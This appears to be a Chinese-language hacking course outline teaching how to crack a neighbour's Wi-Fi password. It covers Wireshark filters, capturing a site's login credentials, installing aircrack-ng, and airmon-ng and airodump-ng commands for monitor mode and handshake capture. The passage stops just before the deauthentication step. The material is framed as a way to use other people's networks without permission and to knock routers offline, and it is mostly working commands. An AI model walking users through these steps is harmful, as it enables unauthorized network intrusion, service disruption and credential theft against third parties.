 ##课程介绍
屌丝逆袭之蹭网利器，在女朋友面前炫耀一下自己的“黑客功底”，在Linux的世界里，其实这都不是什么难事，瘫痪路由器，发起网络攻击，抓包数据分析，加入“网络圣战”，进入Linux世界，轻松让你成为“高逼格”的IT达人

##课程知识点
1、WIFI密码破解原理剖析

2、网络数据抓包与分析

3、路由器攻击，瘫痪网络

4、随心所欲，开发定制密码字典

5、枚举字典，暴力破解

6、轻松使用”隔壁老王“的wifi

##课程详情
Wireshark是一个非常好用的抓包工具，当我们遇到一些和网络相关的问题时，可以通过这个工具进行分析，不过要说明的是，这只是一个工具，用法非常灵活的。

![wireshark](pictures/1.png)

Wireshark下载地址

	https://www.wireshark.org/download.html
	
##选取网卡
wireshark左上角，查找list那个按钮

##设置抓包过滤器(CaptureFilters)
	语法:Protocaol $ Direction $ Host(s) $ Value $ Logical Operations $ Other expression
	例子: ip src host 192.168.1.100 tcp dst port 8080
	例子：ip src host 192.168.1.100
	
###Protocol（协议）：
可能得值：ether,fddi,ip,arp,rarp,decnet,lat,sca,moprc,mopdl,tcp adn udp

如果没有特别指明是什么协议，则默认使用所有支持的协议。

###Direction（方向）：
可能的值：src,dst,src and dst,src or dst

如果没有特别指明来源或目的地，则默认使用”src or dst“作为关键字。例如，"host 10.2.2.2"与"src or dst host 10.2.2.2"是一样的。

###Host(s):
可能的值：net,port,host,portrange.

如果没有指定此值，则默认使用”host“关键字。例如，"src 10.1.1.1"与"src host 10.1.1.1"相同

###Logical Operations(逻辑运算)：
可能得值：not,and,or

否("not")具有最高的优先级。或("or")和与("and")具有相同的优先级，运算时从左至右进行。例如：

	"not tcp port 3128 and tcp port 23"与"(not tcp port 3128) and tcp port 23"相同
	"not tcp port 3128 and tcp port 23"与"not (tcp port 3128) and tcp port 23)"不同
	
如果过滤器的语法是正确的，表达式的背景呈绿色。如果呈红色，说明表达式有误。

##设置显示过滤器(DisplayFilters)
	
	语法：Protocol.String1.String2 $ Comparison operator $ Value $ Logical Operations $ Other expression
	例子：ip.src=192.168.1.100	(显示来源为192.168.1.100的包)
		tcp.port==80
	例子：http.request.method==POST(显示http请求方法是post)
		
##网络封包分析
	登录获取某网站的表单，分析其账号和密码
	
##WIFI密码破解原理剖析
	1、把我的网卡变成监听模式(捕获无线信号)
	2、扫描周围无线WIFI
	3、专门监听老王的WIFI（老王和路由器的数据传输）
	4、发起攻击，模拟WIFI路由器单插，向老王发出断开连接请求
	5、老王的电脑断开连接，自动重新建立连接，咱们捕获4次握手包
	6、4次握手包里包含有经过加密的密码，SHA1 MD5
	7、暴力破解，穷举字典破解
	8、轻松加愉快上老王家的网

##Aircrack-ng
###下载
	http://www.aircrack-ng.org/
	http://www.aircrack-ng.org/downloads.html
	http://download.aircrack-ng.org/aircrack-ng-1.2-rc4.tar.gz
	
###安装
	sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev
	tar zxvf aircrack-ng-1.2-rc2.tar.gz
	cd aircrack-ng-1.2-rc2
	make
	sudo make install
	
安装步骤：
		
	ljaer@ubuntu:~$ mkdir mingmingMM
	ljaer@ubuntu:~$ cd mingmingMM/
	ljaer@ubuntu:~/mingmingMM$ ls
	ljaer@ubuntu:~/mingmingMM$ wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc4.tar.gz
	ljaer@ubuntu:~/mingmingMM$ ls
	aircrack-ng-1.2-rc4.tar.gz
	ljaer@ubuntu:~/mingmingMM$ tar zxvf aircrack-ng-1.2-rc4.tar.gz
	ljaer@ubuntu:~/mingmingMM$ ls
	aircrack-ng-1.2-rc4  aircrack-ng-1.2-rc4.tar.gz
	ljaer@ubuntu:~/mingmingMM$ cd aircrack-ng-1.2-rc4/
	ljaer@ubuntu:~/mingmingMM/aircrack-ng-1.2-rc4$ ls
	apparmor  ChangeLog   INSTALLING  LICENSE.OpenSSL  packages  scripts  VERSION
	AUTHORS   common.mak  lib         Makefile         patches   src
	autocfg   evalrev     LICENSE     manpages         README    test
	ljaer@ubuntu:~/mingmingMM/aircrack-ng-1.2-rc4$ sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev 
	ljaer@ubuntu:~/mingmingMM/aircrack-ng-1.2-rc4$ make
	ljaer@ubuntu:~/mingmingMM/aircrack-ng-1.2-rc4$ sudo make install
	ljaer@ubuntu:~/mingmingMM/aircrack-ng-1.2-rc4$ cd ..
	ljaer@ubuntu:~/mingmingMM$ ls
	aircrack-ng-1.2-rc4  aircrack-ng-1.2-rc4.tar.gz
	ljaer@ubuntu:~/mingmingMM$ mkdir crack
	ljaer@ubuntu:~/mingmingMM$ cd crack/
	ljaer@ubuntu:~/mingmingMM/crack$ ls
	ljaer@ubuntu:~/mingmingMM/crack$ pwd
	/home/ljaer/mingmingMM/crack
	
	
##WIFI密码破解
1、查看本机电脑无线网卡
	
	iwconfig或者ifconfig
	在这里由于使用的是虚拟机（可以在虚拟机的网络设置，设置wifi连接eth0）

2、激活网卡到monitor模式，得到监控模式下的设备名为wlan0mon
	
	sudo airmon-ng start wlan0
	
3、探查无线网络，选取破解路由器对象

	sudo airodump-ng wlan0mon
	
4、设置监控频道，抓取被选定路由器的数据包，始终运行
	
	sudo airodump-ng --ivs -w linuxcpp -c 6 wlan0mon
	捕获的包存入linuxcp-0x.ivs文件，x为序号
	
5、新开终端，发起Deauth攻击，破事客户端重新链接路由器
